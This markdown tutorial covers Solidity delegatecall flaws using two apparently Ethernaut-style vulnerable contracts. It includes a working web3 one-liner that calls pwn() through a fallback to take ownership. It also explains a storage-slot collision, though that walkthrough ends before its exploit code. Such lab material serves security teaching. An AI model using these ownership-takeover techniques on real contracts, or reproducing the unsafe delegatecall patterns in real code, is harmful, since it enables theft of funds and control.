

# Delegate Call

Delegatecall() allows you to call a function from another contract and change the storage and state variables of the calling contract (the contract that invokes the function).

#### Example Vuln Code 1

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

Confirm which contract we're interacting with using `contract.abi`, which would be Delegation in this case.

```javascript
#create function signature
var pwnFuncSignature = web3.utils.sha3("pwn()")

#pass in the function sig
contract.sendTransaction({data: pwnFuncSignature})
```


#### Example Vuln Code 2

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

The flaw here is that the setTime function in the LibraryContract isn't changing stored time, it's changing timeZone1Library in the calling contract.

This is because of how storage works in Ethereum. Thus, we can override timeZone1Library with a malicious address and exploit the contract like so:

Note that we must copy the same storage space/variables to be able to get to the owner.



